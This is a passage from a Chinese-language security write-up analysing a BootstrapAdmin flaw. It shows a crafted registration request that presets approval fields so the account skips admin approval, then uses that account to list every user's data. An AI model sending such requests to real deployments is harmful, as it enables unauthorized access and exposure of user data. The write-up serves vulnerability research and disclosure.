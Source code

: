 请求包：

```python
POST /api/Register HTTP/1.1
Host: localhost:50852
Content-Length: 150
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:50852
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:50852/Account/Login?AppId=BA
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: .AspNetCore.Antiforgery.a2HlFfgw_P8=CfDJ8Gs8oXs1rxRKjEnWjDIDxNbJjshI1qzQp5CuMqbXtCMkdL2neNZavWmBhuthWZKWz33fafGSx248iRpmB60ypJVZklddoKZx_r5WUEYb6NlFnr8NezIO2vRdhVD2dAcFCSwZJTQffPO8V4Ua3hJC-90
Connection: close

{"UserName":"test","Password":"123456","DisplayName":"test","Description":"test",
"ApprovedTime":"2023-05-04 18:44:20.9316203","ApprovedBy":"system"}
```

放包后，我们可以使用管理员账号在后台查看用户相关数据。发现已经添加成功。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-65f32ddb32d1751f27e20b22f4363363bfce6ef1.png)

使用我们刚刚注册的账号进行登录。可以看到能够登录，也就是说**绕过了注册账号需要管理员通过的操作**

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-4b86f92f1283dc9ec023160f9b6a6a832a6e2a4a.png)

可以看到是 test 账户，现在是默认权限的状态。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-40797810dbf66f53e0aa7100bc29b6f09d41269e.png)

当我访问 `http://localhost:50852/api/Users?search=&sort=RegisterTime&order=desc&offset=0&limit=20&name=&displayName=&_=1683257070879`时可以获取所有用户的用户相关信息。这个功能当前用户应当没有权限，只有管理员有用户管理的面板。属于**越权**操作了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-5ad2c0f34dbe15b1a8fa804fb9e93ded2890a6d5.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-c771190d63eab6b53b29ba588dbe8eb7d1dba78e.png)

### 漏洞定位

我们在请求`http://localhost:50852/api/Register`时会先进入到：  
`BootstrapAdmin\src\mvc\admin\Bootstrap.Admin\Controllers\Api\RegisterController.cs`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-7c0dcbf0a267bb63fc0f0aff219eec1d7a9c9f78.png)
